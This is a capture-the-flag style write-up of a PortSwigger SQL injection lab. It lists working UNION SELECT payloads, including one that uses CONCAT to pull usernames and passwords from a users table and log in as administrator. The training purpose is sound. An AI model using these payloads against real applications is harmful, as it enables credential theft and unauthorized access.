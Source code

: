 # SQL injection UNION attack, retrieving data from other tables

**Lab Url**: [https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

![Lab Description](img/lab-description.png)

## Objective

The lab objective is to retrive data from other tables.

## Analysis

The initial step is to understand how the vulnerable application works and gather information about the target system. The application showcases a product catalog with a product name. The navbar contains a feature to filter out products by category.

As in the previous lab, we can use the `ORDER BY` clause to determine the number of columns query returns.

```bash
'+ORDER+BY+2+--
```

**In my case, the query returns `two` columns however only one is displayed or returned. You can confirm that from the below payloads:**

**This payload will cause an internal server error.**

```bash
'+union+select+username,password+from+users+--
```

**However, this will return valid credentials.**

```bash
'+union+select+null,username+from+users+--
```

OR

```bash
'+union+select+null,password+from+users+--
```

## Solution

It seems like there is a mechanism on the backend that only returns the last column thus we can get only one column at a time. However, we can bypass this using the `CONCAT()` function.

```bash
'+union+select+null,concat(username,'-',password)+from+users+--
```

![Username Password](img/username-password.png)

After retrieving the credentials log in as `administrator` to solve this lab.

![Lab Solved](img/lab-solved.png)
